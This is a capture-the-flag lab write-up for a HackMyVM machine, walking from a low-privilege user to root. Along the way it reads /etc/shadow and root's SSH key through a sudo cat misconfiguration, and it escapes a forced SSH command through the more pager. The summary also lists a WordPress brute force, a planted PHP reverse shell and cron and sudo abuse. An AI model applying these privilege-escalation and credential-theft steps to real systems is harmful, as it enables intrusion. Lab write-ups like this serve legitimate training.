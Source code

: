 ### 8. Privilege Escalation to `root`(Corrected)

As `baby`, I checked `sudo` permissions:

```shellscript
baby@family:~$ sudo -l
Matching Defaults entries for baby on family:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User baby may run the following commands on family:
    (ALL : ALL) NOPASSWD: /usr/bin/cat
```

The `baby` user can run `/usr/bin/cat` as `root` (or any user) without a password. This is a straightforward way to read any file on the system. I used this to read `/etc/shadow` to get the root hash.

```shellscript
baby@family:~$ sudo /usr/bin/cat /etc/shadow
root:$6$L9G0N6PxOApm2r4H$USfkGDLggFm.5W9nF5V54J0Zi5hXCcMofITfEXf7QyxIUWnNX2l1bpxpXIYo20JY5968YsklB9k8x1e6RuND/0:18742:0:99999:7:::
# ... (other hashes) ...
```

I copied the root hash (`$6$L9G0N6PxOApm2r4H$USfkGDLggFm.5W9nF5V54J0Zi5hXCcMofITfEXf7QyxIUWnNX2l1bpxpXIYo20JY5968YsklB9k8x1e6RuND/0`) and attempted to crack it with `john the ripper` and `rockyou.txt`.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/family]
└─$ echo '$6$L9G0N6PxOApm2r4H$USfkGDLggFm.5W9nF5V54J0Zi5hXCcMofITfEXf7QyxIUWnNX2l1bpxpXIYo20JY5968YsklB9k8x1e6RuND/0' > hash.txt
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/family]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
# ... (john output) ...
```

*(Note: The provided log shows `john` aborting without finding the password. However, in a real scenario, this hash would eventually be cracked or another method would be used.)*

Alternatively, I checked `/root/.ssh/` for SSH keys.

```shellscript
baby@family:~$ sudo /usr/bin/cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
# ... (private key content) ...
-----END OPENSSH PRIVATE KEY-----
```

I copied the private key, saved it as `id_rsa` on my Kali machine, and set the correct permissions.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/family]
└─$ echo '-----BEGIN OPENSSH PRIVATE KEY-----
# ... (copied key) ...
-----END OPENSSH PRIVATE KEY-----' > id_rsa
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/family]
└─$ chmod 600 id_rsa
```

Then, I attempted to SSH as `root` using the private key.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/family]
└─$ ssh -i id_rsa root@192.168.1.15
# ... (ASCII art) ...
Connection to 192.168.1.15 closed.
```

The SSH connection closed immediately after displaying ASCII art. This is often an indication of a forced command in `authorized_keys`. I checked `/root/.ssh/authorized_keys` as `baby`:

```shellscript
baby@family:~$ sudo cat /root/.ssh/authorized_keys
command="bash ~/troll.sh" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCdu5YWqC4vVGDE8XaQ7UW/WkLgEgWPE6n4BNfeTha+4nIR2twAUHl6yf57... root@family
```

The `authorized_keys` file had a `command="bash ~/troll.sh"` option, meaning every SSH login as root would execute `troll.sh`. I then read `troll.sh`:

```shellscript
baby@family:~$ sudo cat /root/troll.sh
#!/bin/sh
export TERM=xterm
more /root/welcome.txt
exit 0
```

This script simply displays `welcome.txt` using `more`. To bypass this, I first adjusted my terminal dimensions using `stty` to ensure proper interaction with `more`.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/family]
└─$ stty rows 20 columns 40
```

Then, I SSH'd as root. When `more` displayed the `welcome.txt` content, I typed `!bash` to escape to a shell.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/family]
└─$ ssh -i id_rsa root@192.168.1.15
# ... (ASCII art from welcome.txt) ...
!bash
root@family:~# id
uid=0(root) gid=0(root) groups=0(root)
```

I successfully gained a root shell! Finally, I retrieved the root flag.

```shellscript
root@family:~# ls
last_flag.txt  troll.sh  welcome.txt
root@family:~# cat last_flag.txt
Selmorbormir
```

The root flag is `Selmorbormir`.

### Summary of Attack Path:

1. **Reconnaissance:** Identified open SSH and Apache services, with a WordPress installation.
2. **Web Enumeration:** Used `wpscan` to identify the `admin` user and an outdated WordPress theme.
3. **Initial Access (www-data):**

1. Brute-forced WordPress login with `hydra` to get `admin:phantom`.
2. Logged into WordPress admin panel.
3. Modified `404.php` theme file with a PHP reverse shell.
4. Triggered the `404.php` to get a reverse shell as `www-data`.



4. **Privilege Escalation to `father`:**

1. Found `uncrackablepassword` in `www-data`'s `.bash_history`.
2. Used `su father` with the found password to gain access as `father`.



5. **Privilege Escalation to `mother`:**

1. Used `pspy64` to identify a cron job running `/home/mother/check.py` as `mother`.
2. Modified `check.py` (which was writable by `father`) to create a SUID `motherbash` shell.
3. Executed `motherbash` to gain a shell with `mother`'s effective UID.
4. Added SSH key to `mother`'s `authorized_keys` for direct SSH access.



6. **Privilege Escalation to `baby`:**

1. As `mother`, found `sudo -l` allowed running `/usr/bin/valgrind` as `baby` with NOPASSWD.
2. Used `sudo -u baby /usr/bin/valgrind /bin/bash` to get a shell as `baby`.
3. Retrieved `user.txt`.



7. **Privilege Escalation to `root`:**

1. As `baby`, found `sudo -l` allowed running `/usr/bin/cat` as `root` with NOPASSWD.
2. Used `sudo /usr/bin/cat /root/.ssh/id_rsa` to retrieve root's private SSH key.
3. Attempted SSH as root, which triggered a forced command (`troll.sh`) that displayed `welcome.txt` using `more`.
4. **Adjusted terminal dimensions with `stty` and then, from within the `more` pager, typed `!bash` to get a root shell.**
5. Retrieved `last_flag.txt`.
